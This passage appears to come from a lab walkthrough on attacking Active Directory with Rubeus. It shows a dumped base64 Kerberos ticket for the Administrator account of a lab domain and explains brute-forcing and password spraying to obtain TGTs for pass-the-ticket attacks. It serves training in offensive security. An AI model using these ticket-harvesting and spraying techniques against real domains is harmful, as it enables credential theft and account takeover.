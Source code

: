 ```
    doIFjDCCBYigAwIBBaEDAgEWooIEgDCCBHxhggR4MIIEdKADAgEFoRIbEENPTlRST0xMRVIuTE9DQUyiJTAjoAMCAQKhHDAaGwZr
    cmJ0Z3QbEENPTlRST0xMRVIuTE9DQUyjggQwMIIELKADAgESoQMCAQKiggQeBIIEGhb1UXo2DBjgJyjcyrm5wwGV6uU/DS4rmsl2
    5XL7+Im7im9G3s4BQecOCSpOHC2OLZK7mWYZsOuZ3J9fnfNgo3STRB7yk9iaRJFCOBzd6gg7GPGrgD5Jecqrra2pxXDZfqNpr7KI
    7HlZizJGYbiIMg+u5jDhZDu8ONxyuJfKKqecKqd6EgcK2rmRxRiDWOgIzfbpFIEBYfjrPTMjKZikJZpdccyHcO8h9oyKQhegtQ6A
    77wXj6fVmwa5RYH+ODPl/xU2WnyOG2InIlVZ19w7s8Mxue2fSbvEK+ymUbvE5QIKMa5CKxXx+JDYvceEdmyGfS7L6zVRIezPkJYr
    5gtqpDb7OVEnutEh8GMxaVOUCOOjbrTaU9u9IdAjB8lUn7Pcd1BR5MHrSWpbTXJQbCAbOnthTOP3NLxyHudcQUD75wNAOSDFupkl
    RbRdnh5ULjVefrLEAvJzBdjfpAA8ANEZzKn0wXt0+l5HqqZz8f2K7lyELL4vQzV1gNen97uvzH2eGoo25T9kzwg9XEJ3z/6M6m1y
    FNNxT7RcpzEV2FA5kNVKlj9tV6i4t0Hp8gOHMtWB4GRiyTkTPStGIVL0Y9eXo6V/zWg706VMWJJfP2R4fyzvZ18pICLY2+JmfEEt
    OFyLmcApHEVqPQwCRSAOQ4wdiBXG8m2a+Q1901u684QGmpdBouj256jLEJJ8zZl77Sy3sjoKO7f3n5K1vmcjInpm2BEy0LyTH1IA
    NlrZMFzKfCaCCczx05EsnFzxSYBWN+bt3db3GuIcSBvil6WDumKPFIB7msEh7JACFppOFEoLYR99qPWPQEG2/8+WykpBnOUmr1eu
    slgxzezgNLnfPm1BqQbUuhdJWrsRXJtrN+cySNY714ZU6EnlG8UYAtRe4Lrcdw8jifxPbFP0S8OpEdDGyNCRN+nm6fCbp6lcF1om
    rZBdCW81mIeHs1BijPz1p9jXKZ6Wt4FFplGnOEU/6ftyRCPPMbNRWcTl4227upZVXPi1QbWerE0nXnIftypb/rXuV6LZOlftj0EF
    rP9B3M4V60xnyCeiL0chNUKjuVS0yOZGKX7W4QXxYE19Lltw+abzQX2rkiXTto6vQW27eKpVEgZLdqah6Zr791EHwarN+BU4uV5A
    ogRV24Hl0Tg2FUJYPaQ6gkNPZVlHibi/UrP5sLX6yTtz0+hUwjPYp/rEw2BDuN4V2i4MTwSOFs5S+OsiceHnYhJNbsGZDQBvvrN6
    4qp++2BIxXpiOL2p/30etlr2e/TW+iSxopsCXZrBDdtvxLWF9zExreJuV1KGvnEs4rBbfGT8E7VovFWbsE1ZeMFxl+geW1RkTkZq
    XhtpGZQd4qCD8Nl3wSqe6kT015aZ97RorVWARY7j0tJfvVtT1X4rD2KBFDOCr5Fv/6OB9zCB9KADAgEAooHsBIHpfYHmMIHjoIHg
    MIHdMIHaoCswKaADAgESoSIEIAwaEvwKsu59ZTbpo8wqbqi2tePVzyrA4r/JU8tpVjueoRIbEENPTlRST0xMRVIuTE9DQUyiGjAY
    oAMCAQGhETAPGw1BZG1pbmlzdHJhdG9yowcDBQBA4QAApREYDzIwMjAxMTI0MTgxMTQzWqYRGA8yMDIwMTEyNTA0MTE0M1qnERgP
    MjAyMDEyMDExODExNDNaqBIbEENPTlRST0xMRVIuTE9DQUypJTAjoAMCAQKhHDAaGwZrcmJ0Z3QbEENPTlRST0xMRVIuTE9DQUw=

[*] Ticket cache size: 4
[*] Sleeping until 11/24/2020 10:14:18 AM (30 seconds) for next display
```

**Brute-Forcing / Password-Spraying w/ Rubeus -**

Rubeus can both brute force passwords as well as password spray user accounts. When brute-forcing passwords you use a single user account and a wordlist of passwords to see which password works for that given user account. In password spraying, you give a single password such as Password1 and "spray" against all found user accounts in the domain to find which one may have that password.

This attack will take a given Kerberos-based password and spray it against all found users and give a .kirbi ticket. This ticket is a TGT that can be used in order to get service tickets from the KDC as well as to be used in attacks like the pass the ticket attack.
